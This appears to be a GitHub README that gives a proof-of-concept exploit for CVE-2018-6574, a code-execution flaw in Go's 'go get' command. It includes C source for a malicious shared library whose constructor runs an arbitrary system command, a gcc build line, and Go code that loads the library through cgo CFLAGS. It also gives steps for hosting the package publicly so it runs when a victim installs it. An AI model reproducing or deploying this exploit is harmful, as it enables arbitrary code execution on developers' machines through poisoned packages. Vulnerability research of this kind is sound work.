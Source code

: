 # CVE-2018-6574

Remote command execution in `Golang` go get command.

CVE-2018-6574 this vulnerability impacts Golang go get command and allows an attacker to gain code execution on a system by installing his malicious library, this vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.

Golang will build native extensions. This can be used to pass additional flags to the compiler to gain code execution. For example, `CFLAGS` can be used.

## Exploitation:

You will need a malicious `exploit.so` file. The code below should help you with that:

```c
#include<stdio.h>
#include<stdlib.h>

static void exploit() __attribute__((constructor));

void exploit() {
    system("[YOUR CMD]");
}
```

You can build it using the following command:

```bash
gcc -shared -o exploit.so -fPIC exploit.c
```

Notice that you need to build that plugin on the same platform and architecture as the victim.

Then, you need the go code that will tell `cgo` to use your plugin:

```go
package main
// #cgo CFLAGS: -fplugin=./exploit.so
// typedef int (*intFunc) ();
// int _func(intFunc f)
// {
//      return f();
// }
// int one()
// {
//      return 1;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.one)
    fmt.Println(int(C._func(f)));
}
```

Then you should host the malicious package (.so & main.go) in public Github repository.

The malicious package will executed after:

```bash
go get github.com/XXXXX/XXXX
```

Run by the victim.
